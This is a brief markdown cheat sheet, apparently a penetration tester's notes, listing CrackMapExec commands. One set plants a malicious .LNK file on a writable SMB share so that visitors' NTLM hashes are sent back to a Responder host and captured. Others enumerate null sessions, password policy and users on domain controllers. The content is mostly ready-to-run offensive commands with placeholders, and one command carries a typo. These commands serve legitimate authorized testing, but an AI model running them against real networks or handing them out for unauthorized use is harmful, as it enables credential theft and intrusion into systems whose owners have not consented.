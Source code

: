 # CrackMapExec Examples

**Description:** Examples of CrackMapExec commands that I use throughout penetration tests.

## Harvest NTLMv2/v1 credentials if you have write-access to a share. 

Enumerate the hosts shares \
```crackmapexec smb [TARGET] -u [USERNAME] -p [PASSWORD] --shares```

Create a malicious .LNK file calling back to your Responder.py IP \
```crackmapexec smb [TARGET] -u [USERNAME] -p [PASSWORD] -M slinky -o NAME=[SHARE] SERVER=[ResponderIP]```

After waiting and (hopefully) obtaining several NTLM hashes, cleanup the malicious file \
```rackmapexec smb [TARGET] -u [USERNAME] -p [PASSWORD] -M slinky -o NAME=[SHARE] SERVER=[ResponderIP] CLEANUP=True```

## Null Session Enumeration

Enumerate null sessions \
```cme smb [TARGETS] -u '' -p ''```

Enumerate password policy (domain controller) \
```cme smb [TARGET] --pass-pol```

Enumerate users (domain controller) \
```cme smb [TARGET] --users```

## References
* [Harvest_NTLM_with_Slinky](https://twitter.com/mpgn_x64/status/1453018750253424643)
* [Enumerate_Null_Sessions](https://mpgn.gitbook.io/crackmapexec/smb-protocol/enumeration/enumerate-null-sessions)
